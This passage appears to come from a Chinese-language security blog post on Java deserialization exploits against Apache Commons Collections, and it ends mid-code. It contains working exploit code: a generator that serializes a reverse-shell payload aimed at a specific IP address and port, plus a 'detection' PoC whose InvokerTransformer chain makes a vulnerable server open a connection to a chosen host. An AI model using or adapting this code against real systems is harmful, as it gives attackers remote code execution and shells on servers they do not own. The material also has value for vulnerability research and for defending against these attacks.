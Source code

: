 ```
Class cls = Class
.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Retention.class, outmap);
return instance;
`}`
public static void main(String[] args) throws Exception `{`
GeneratePayload(Reverse_Payload("146.185.182.237", 8090),
"/Users/iswin/Downloads/test.bin");
`}`
public static void GeneratePayload(Object instance, String file)
throws Exception `{`
File f = new File(file);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(instance);
out.flush();
out.close();
`}`
public static void payloadTest(String file) throws Exception `{`
// 这里为测试上面的tansform是否会触发payload
// Map.Entry onlyElement =(Entry) outmap.entrySet().iterator().next();
// onlyElement.setValue("foobar");
ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
in.readObject();
in.close();
`}`
`}`
```

**漏洞检测?<br>**

这里提供一个poc供大家进行检测,其实就是发送一个http请求到指定ip,然后参数中带有特定特征来判断是否存在漏洞,直接观察日志就可以了。



```
package iswin;
import java.io.File;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
public class CommonsCollections1 `{`
public InvocationHandler getObject(final String ip) throws Exception `{`
final Transformer transformerChain = new ChainedTransformer(
new Transformer[] `{` new ConstantTransformer(1) `}`);
final Transformer[] transformers = new Transformer[] `{`
new ConstantTransformer(java.net.URL.class),
new InvokerTransformer("getConstructor",
new Class[] `{` Class[].class `}`,
new Object[] `{` new Class[] `{` String.class `}` `}`),
new InvokerTransformer("newInstance",
new Class[] `{` Object[].class `}`,
new Object[] `{` new String[] `{` ip `}` `}`),
new InvokerTransformer("openStream", new Class[] `{``}`,
```